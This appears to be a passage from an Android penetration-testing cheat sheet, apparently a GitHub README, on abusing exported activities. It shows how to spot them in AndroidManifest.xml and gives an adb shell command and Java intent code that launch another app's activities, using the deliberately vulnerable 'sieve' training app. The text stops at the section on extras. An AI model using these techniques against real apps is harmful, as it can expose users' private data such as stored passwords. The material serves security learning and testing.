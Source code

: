 # Content
- [Exported Actvites](#exported-actvites)
- [Exported Actvites with Extras](#exported-actvites-with-extras)
- [Deep Links Hijacking](#deep-links-hijacking)
- [Broadcastreceiver](#broadcastreceiver)
- []()

# Exported Actvites
exported actvites can lead to see senstive info also can lead to open another actvites and more functions which maybe danger if anyone can do that
## How to find ? 
### in `AndroidManifest.xml`
- search for  `android:exported="true"` in an activity
- before android 12 if an activity has an `intent-filter` declared in the manifest, Android automatically considers the activity as exported, even if you don't explicitly set `exported="true"`

```xml
<intent-filter>
  <action android:name="android.intent.action.MAIN"/>
  <category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
```

### open activity using shell
```powershell
am start-activity -n <package name>/.<activity name>
am start-activity -n com.mwr.example.sieve/.FileSelectActivity
```

### open activity by another app
```java
Intent I =  new Intent();
ComponentName C = new ComponentName("<app package name>", "<activity name>");
I.setComponent(C);
startActivity(I);

// example
Intent I =  new Intent();
ComponentName C = new ComponentName("com.mwr.example.sieve", "com.mwr.example.sieve.PWList");
I.setComponent(C);
startActivity(I);
```


# Exported Actvites with Extras
sometimes we can send an intent with some data if we have a code like the following and if the activity is exported then we can conrtol the data sent to it  
